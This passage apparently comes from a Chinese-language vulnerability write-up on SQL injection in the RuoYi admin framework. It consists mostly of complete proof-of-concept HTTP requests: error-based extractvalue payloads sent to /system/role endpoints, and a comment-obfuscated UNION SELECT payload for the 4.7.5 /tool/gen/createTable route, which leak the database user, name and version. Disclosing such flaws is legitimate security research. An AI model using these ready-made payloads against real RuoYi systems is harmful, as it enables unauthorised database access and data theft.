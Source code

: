 ```
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close
DeptName=1&DeptId=100&ParentId=12&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat((select user()))));#
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGcewUYrA7AEsMibqzsgvUme04aboAqB3ewvBGlvNNWt1zeDbFprpbR3w/640?wx_fmt=png&from=appmsg "")  
  
  
第三个sql注入点POC：  

```
POST /system/role/export HTTP/1.1
Host: 127.0.0.1
Content-Length: 75
sec-ch-ua: &#34;Chromium&#34;;v=&#34;109&#34;, &#34;Not_A Brand&#34;;v=&#34;99&#34;
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
sec-ch-ua-platform: &#34;Windows&#34;
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/role
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: o0At_2132_saltkey=JW6Gt2hb; o0At_2132_lastvisit=1691240426; o0At_2132_ulastactivity=2db4EUfD9WS50eLvnip%2B9TxK2ZhcO65vPL0dA6sPVF8AQSBMa6Qn; JSESSIONID=cfcf2d1f-f180-46cf-98bb-5eacc4206014
Connection: close
params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGiawgdVicEJzhMxQICbSkYHKHy2iamoJv3MZdyicIMZaTicYq3DJ8cQIysAw/640?wx_fmt=png&from=appmsg "")  
### RuoYi4.7.5版本后台sql注入  
  
ruoyi-4.7.5 后台 com/ruoyi/generator/controller/GenController 下/tool/gen/createTable路由存在sql注入。  
  
POC：  

```
sql=CREATE table ss1 as SELECT/**/* FROM sys_job WHERE 1=1 union/**/SELECT/**/extractvalue(1,concat(0x7e,(select/**/version()),0x7e));
```
